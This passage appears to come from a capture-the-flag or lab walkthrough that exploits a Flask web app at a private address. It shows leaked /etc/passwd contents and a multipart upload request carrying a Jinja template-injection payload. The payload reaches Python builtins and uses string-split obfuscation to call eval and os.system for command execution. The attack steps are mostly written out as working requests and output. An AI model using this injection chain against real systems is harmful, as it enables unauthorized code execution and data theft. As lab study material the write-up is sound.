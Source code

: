 ```html
		list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
		irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
		_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
		nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
		systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
		messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
		avahi-autoipd:x:101:108:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
		cosette:x:1001:1001::/home/cosette:/bin/bash
		exia:x:1002:1002::/home/exia:/bin/bash
		ftp:x:103:112:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin

        &lt;/body&gt;
&lt;/html&gt;</div>

[...]
```

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ get_flashed_messages.__globals__.__builtins__ }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

	'eval': <built-in function eval>, 
	'open': <built-in function open>,
	'write': <built-in function open>,

[...]
```

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ get_flashed_messages.__globals__.__builtins__.eval("__imp"+"ort__('o'+'s').system('echo TEST')") }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```
